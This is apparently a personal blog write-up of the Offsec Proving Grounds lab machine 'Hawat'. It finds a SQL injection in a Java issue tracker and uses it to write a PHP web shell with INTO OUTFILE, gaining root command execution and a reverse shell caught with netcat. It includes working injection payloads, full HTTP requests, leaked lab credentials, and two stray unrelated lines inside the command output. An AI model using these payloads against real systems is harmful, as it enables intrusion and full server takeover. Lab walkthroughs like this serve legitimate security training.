 ```yaml
---
title: "Proving grounds Play: Hawat"
layout: post
date: 2023-10-16 02:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- PG-Practice
- RCE
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds practice linux machine writeup"
---
```


## Nmap

```text
22/tcp    open  ssh     OpenSSH 8.4 (protocol 2.0)
17445/tcp open  unknown
30455/tcp open  http    nginx 1.18.0
50080/tcp open  http    Apache httpd 2.4.46 ((Unix) PHP/7.4.15)
```

## 17445/tcp open  unknown

http://192.168.156.147:17445/

![img](/assets/images/CTF/Proving_Grounds/Hawat/web1.png)

Register an user account on the portal.

## 30455/tcp open  http    nginx 1.18.0

http://192.168.156.147:30455/

http://192.168.156.147:30455/phpinfo.php

**Required UInfo**

```text
Document root = /srv/http
server port = 30455
server user = root
```

## 50080/tcp open  http    Apache httpd 2.4.46 ((Unix) PHP/7.4.15)

### Directory discovery

```sh
[11:31:15] 301 -  243B  - /cloud  ->  http://192.168.156.147:50080/cloud/
```

![img](/assets/images/CTF/Proving_Grounds/Hawat/web2.png)

Next cloud login page, use credentials `admin:admin` to login.

![img](/assets/images/CTF/Proving_Grounds/Hawat/web3.png)

Download and extract the `issuetracker.zip` file in the local machine. Open the extracted file in a text editor to review the code.

Upon reviewwing the code, found that the application is vulnerable to sql injection vulnerability.

```java
	@GetMapping("/issue/checkByPriority")
	public String checkByPriority(@RequestParam("priority") String priority, Model model) {
		// 
		// Custom code, need to integrate to the JPA
		//
	    Properties connectionProps = new Properties();
	    connectionProps.put("user", "issue_user");
	    connectionProps.put("password", "ManagementInsideOld797");
        try {
			conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/issue_tracker",connectionProps);
		    String query = "SELECT message FROM issue WHERE priority='"+priority+"'";           //variable priority is not sanitized or no input validation is implemented
            System.out.println(query);
		    Statement stmt = conn.createStatement();
		    stmt.executeQuery(query);

        } catch (SQLException e1) {
			// TODO Auto-generated catch block
			e1.printStackTrace();
		}
		
        // TODO: Return the list of the issues with the correct priority
		List<Issue> issues = service.GetAll();
		model.addAttribute("issuesList", issues);
		return "issue_index";
        
	}
```

On the above code the variable `priority` is not properly validated against the injection vulnerabilities and by using `UNION` based injection we can achieve remote code execution.

## Foothold

Login to the application running on `http://192.168.217.147:17445/login` with the registered credentials. Construct a POST request as per the code `/issue/checkByPriority?priority=Normal`.

> Note: GET method is not supported for the endpoint.

```http
POST /issue/checkByPriority?priority=Normal'+UNION+SELECT+sleep(5)+--+ HTTP/1.1
Host: 192.168.217.147:17445
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=56CD439D46124C28A892FBC77124E167
Upgrade-Insecure-Requests: 1
```

SQL injection is confirmed.

**RCE Payload**

```text
Normal' UNION SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "/srv/http/rce.php" -- 
```

URL encode the payload and send it to the server.

```http
POST /issue/checkByPriority?priority=Normal%27%20UNION%20SELECT%20%22%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E%22%20INTO%20OUTFILE%20%22%2Fsrv%2Fhttp%2Frce.php%22%20--%20 HTTP/1.1
Host: 192.168.217.147:17445
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=56CD439D46124C28A892FBC77124E167
Upgrade-Insecure-Requests: 1
```

Navigate to the `http://192.168.217.147:30455/rce.php?cmd=id` location to perform code execution.

```sh
naveenj@hackerspace:|22:03|~/proving_grounds/Hawat$ curl 'http://192.168.217.147:30455/rce.php?cmd=id'
Windows 10 keeps telling me to update, why?
Is allowed to use torrent sites in the corporate network?
uid=0(root) gid=0(root) groups=0(root)
```

Create PHP reverse shell file and use port as 443 to get reverse shell. Download the php file to the server and place it on `/srv/http` folder to access it publicly.

> Note: The server only allows port 443 so run python server on the same to download the reverse shell code to the attacking machine.

```sh
naveenj@hackerspace:|22:09|~/proving_grounds/Hawat$ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.45.186] from (UNKNOWN) [192.168.217.147] 55270
Linux hawat 5.10.14-arch1-1 #1 SMP PREEMPT Sun, 07 Feb 2021 22:42:17 +0000 x86_64 GNU/Linux
 02:11:10 up 28 min,  0 users,  load average: 0.06, 0.05, 0.00
USER     TTY        LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
sh: cannot set terminal process group (575): Inappropriate ioctl for device
sh: no job control in this shell
sh-5.1# 
```

**Foothold Obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).